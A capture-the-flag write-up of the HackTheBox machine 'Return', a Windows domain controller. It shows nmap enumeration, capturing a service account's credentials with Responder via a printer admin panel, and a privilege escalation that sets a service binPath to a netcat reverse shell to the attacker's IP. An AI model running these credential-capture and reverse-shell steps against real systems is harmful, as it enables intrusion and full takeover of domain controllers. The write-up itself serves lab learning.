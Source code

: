 ```yaml
---
title: "HackTheBox - Return"
author: Nasrallah
description: ""
date: 2023-04-15 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, responder, groups]
img_path: /assets/img/hackthebox/machines/return
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Return](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

![](0.png)

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.11.108
Host is up (0.20s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-04-08 12:39:06Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 18m34s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-04-08T12:39:21
|_  start_date: N/A
```

From the open ports, it's seems like we're dealing with a windows domain controller.

### Web

Let's navigate to the web page.

![](1.png)

It's a printer admin panel, let's got to `Settings` page

![](2.png)

In this page we can make some sort of an update, we can see a hidden password.

### Burp

Let's start `Burp suite` an intercept the update request, maybe we can read the password.

![](3.png)

The password did not get sent, only the `ip`.

Here i thought that the update still must be done and a request is sent to the ip we specify in the request.

## **Foothold**

Let's test that theory by running `responder` and changing the ip value in the request from `printer.return.local` to out tun0 ip.

![](4.png)

We got the password for `printer-svc`, let's use `evil-winrm` to connect to the target.

![](5.png)

We got a shell

## **Privilege Escalation**

Let's check our groups.

```terminal
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288

```

We see that we're part of `Server Operators` group, this allow us to start and stop services.

Let's list running services with the command `services`

```terminal
*Evil-WinRM* PS C:\Users\svc-printer\Documents> services        
                                                                               
Path                                                                                                                 Privileges Service                       
----                                                                                                                 ---------- -------                       
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS                          
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796                 
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc    
```

We notice the service VMTools.

The way we're going to exploit this service is to modify the binary path to execute a command of our choice.

After we upload a copy of netcat, we can set the binpath to send us a shell using netcat. This can be done with the following command.

```terminal
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc.exe 10.10.17.90 9001 -e cmd.exe"
```

Next we stop the service and start it. with `sc.exe stop VMTools` `sc.exe start VMTools`.

![](6.png)

We got a shell as SYSTEM.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).